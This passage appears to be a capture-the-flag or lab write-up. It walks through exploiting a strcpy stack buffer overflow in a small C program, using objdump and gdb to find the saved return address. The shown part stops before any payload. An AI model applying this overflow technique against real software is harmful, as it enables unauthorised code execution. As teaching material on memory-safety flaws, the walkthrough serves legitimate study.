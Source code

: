 From this we can retrieve the following C code:
```C
# include <string.h>
int main(int ac, char**argv)
{
    char str[140];
    if (ac <= 1)
        return 1;
    strcpy(str, argv[1]);
    puts(str);
    return 0;
}
```

From the objdump output we must get the address just before leaving the main section.
```
08048464 <main>:
[...]
80484d2:	c9                   	leave

```

With this address in hand we can start the exploit with `gdb`:
```bash
$> gdb ./exploit_me
```

Set the program argument like this:
```
(gdb) set args "AAAAAAAAAAAAAAA"
```

We set a breakpoint in gdb to stop the execution at the end of main section
```
(gdb) break *Ox80484d2
```

To make our input string we will use two major commands:

- display top stack with:
```
(gdb) x/64wx $esp
0xbffff610:	0xbffff620	0xbffff889	0x00000001	0xb7ec3c49
0xbffff620:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff630:	0xbf004141	0xb7fdd000	0x00000000	0xb7e5ec73
0xbffff640:	0x08048241	0x00000000	0x00ca0000	0x00000001
0xbffff650:	0xbffff874	0x0000002f	0xbffff6ac	0xb7fd0ff4
0xbffff660:	0x08048440	0x080496e8	0x00000002	0x080482dd
0xbffff670:	0xb7fd13e4	0x0000000d	0x080496e8	0x08048461
0xbffff680:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff690:	0xb7fed280	0x00000000	0x08048449	0xb7fd0ff4
0xbffff6a0:	0x08048440	0x00000000	0x00000000	0xb7e454d3
0xbffff6b0:	0x00000002	0xbffff744	0xbffff750	0xb7fdc858
0xbffff6c0:	0x00000000	0xbffff71c	0xbffff750	0x00000000
0xbffff6d0:	0x0804820c	0xb7fd0ff4	0x00000000	0x00000000
0xbffff6e0:	0x00000000	0x9e06e153	0xa942a543	0x00000000
0xbffff6f0:	0x00000000	0x00000000	0x00000002	0x08048340
0xbffff700:	0x00000000	0xb7ff26b0	0xb7e453e9	0xb7ffeff4
```
Note: (0x41 = 'A') We can see our input at adress 0xbffff620.
- Display frame's infos
```
(gdb) info frame
Stack level 0, frame at 0xbffff6b0:
 eip = 0x8048436 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff6a8, args:
 Locals at 0xbffff6a8, Previous frame's sp is 0xbffff6b0
 Saved registers:
  ebp at 0xbffff6a8, eip at 0xbffff6ac
```